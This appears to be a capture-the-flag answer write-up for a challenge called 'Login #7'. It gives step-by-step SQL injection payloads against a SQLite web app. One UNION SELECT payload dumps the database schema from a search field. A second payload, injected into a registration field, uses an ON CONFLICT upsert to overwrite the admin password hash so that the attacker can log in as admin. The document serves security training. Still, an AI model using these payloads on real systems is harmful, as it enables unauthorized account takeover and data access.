 ## Login #7 Answer
Sources: https://www.sqlite.org/lang_upsert.html 
        https://tools.keycdn.com/sha256-online-generator

### Instructions:
1. Get structure of database in the search page at `/search`
```
y" UNION SELECT sql, tbl_name FROM sqlite_schema -- 
```
2. Change the password of admin by typing the following command in the Name field of `/register` and anything else in `username` (as long as it is not one already taken) and `password`
```
Owen Mariani", "admin", "5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8") ON CONFLICT(userid) DO UPDATE SET password_hash="5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8" -- 
```
3. Login with `admin` and `password` as the username and password on  `/` respectively